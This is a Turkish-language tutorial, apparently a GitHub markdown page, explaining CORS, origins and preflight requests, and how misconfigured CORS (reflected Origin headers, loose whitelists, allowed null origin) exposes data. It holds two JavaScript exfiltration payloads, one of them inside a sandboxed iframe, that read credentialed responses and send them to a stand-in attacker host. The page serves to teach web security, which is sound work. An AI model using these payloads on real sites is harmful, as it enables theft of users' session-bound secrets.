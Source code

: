 # CORS Nedir?

**CORS (Cross-Origin Resource Sharing)**, SOP (Same-Origin Policy) kısıtlamasını esnetmek için geliştirilmiş bir mekanizmadır.  
Tarayıcılar, bir web uygulamasının kendi origin’i dışındaki bir origin’e doğrudan istek göndermesini engeller. Ancak bu durum, günümüzde oldukça sık ihtiyaç duyulan bir durumdur.  
Örnek:  
- Frontend: `example.com`  
- API: `api.example.com`

---

## Origin Nedir?

Bir origin şu 3 parçadan oluşur:

- **Protokol:** `http`, `https`  
- **Host:** `example.com`  
- **Port:** `80`, `443`

**Örnek:**  
![Origin örneği](image.png)

---

## Preflight Request Nedir?

Tarayıcı, CORS kuralları kapsamında **asıl isteği göndermeden önce** hedef sunucudan izin alıp almadığını kontrol etmek için bir `OPTIONS` isteği yapar.  
Sunucu, bu isteğe uygun `Access-Control-Allow-*` header’larıyla cevap verirse, tarayıcı asıl isteği gönderir; aksi halde istek engellenir.

---

## Origin Header’ı Yansıtarak Dinamik ACAO Üretimi

Bazı uygulamalar, birden fazla domaine erişim izni vermek zorundadır. Bu genellikle, gelen HTTP isteğindeki `Origin` header’ını okuyup bunu doğrudan yanıtta `Access-Control-Allow-Origin` header’ı olarak yansıtarak yapılır.

Örnek isteği inceleyelim:

GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...


Sunucu şu şekilde yanıt verirse:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...


- `Access-Control-Allow-Origin` ile isteğin geldiği domain olan `malicious-website.com` alanına erişim izni verilmiştir.  
- `Access-Control-Allow-Credentials: true` ile çerez gibi kimlik doğrulama bilgileri içeren isteklerin kabul edildiği belirtilmiştir.  
- Bu, işlemin kullanıcının oturumunda gerçekleşmesini sağlar.

---

### Risk:

Eğer sunucu, `Access-Control-Allow-Origin` header’ında **herhangi bir Origin değerini yansıtıyorsa**, herhangi bir domain hedef uygulamadan veri okuyabilir.  
Eğer yanıt hassas veri (API anahtarı, CSRF token vb.) içeriyorsa, saldırgan şu JavaScript ile kolayca erişebilir:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};

Origin Header’larının Ayrıştırılmasında Hatalar

Bazı uygulamalar, birden fazla origin'e erişim vermek için whitelist kullanır.

Örnek:

GET /data HTTP/1.1
Host: normal-website.com
Origin: https://innocent-website.com

Uygulama, gelen Origin değerini whitelist ile karşılaştırır ve uygunsa yanıt verir:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://innocent-website.com

Yaygın Yanlış Yapılanlar

Bazı organizasyonlar, tüm mevcut ve gelecekteki alt domainlere izin verecek şekilde prefix, suffix veya regex tabanlı whitelist yapar.
Bu yapılandırma yanlış uygulanırsa, kontrol dışı domainlere erişim izni verilebilir.

Bypass teknikleri ve URL manipülasyonları için detaylı kaynak:
PortSwigger - URL Validation Bypass Cheat Sheet
Null Origin İzni ve Riskleri

Bazı uygulamalar, yerel geliştirme ortamlarını desteklemek için null origin değerine izin verebilir.

Örnek istek:

GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null

Sunucu cevabı:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

Bu durumda, saldırgan farklı yollarla Origin: null içeren bir cross-origin istek oluşturabilir.
Null Origin ile Sızdırma Payload’u

Aşağıdaki payload, bir data: URI içinde sandboxed iframe aracılığıyla null origin üretir ve hassas veriyi sızdırır:

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>

Bu teknikle, Origin: null ile yapılan istek sunucu tarafından kabul edilirse, oturum tanımlı isteklerle hassas veriler sızdırılabilir.

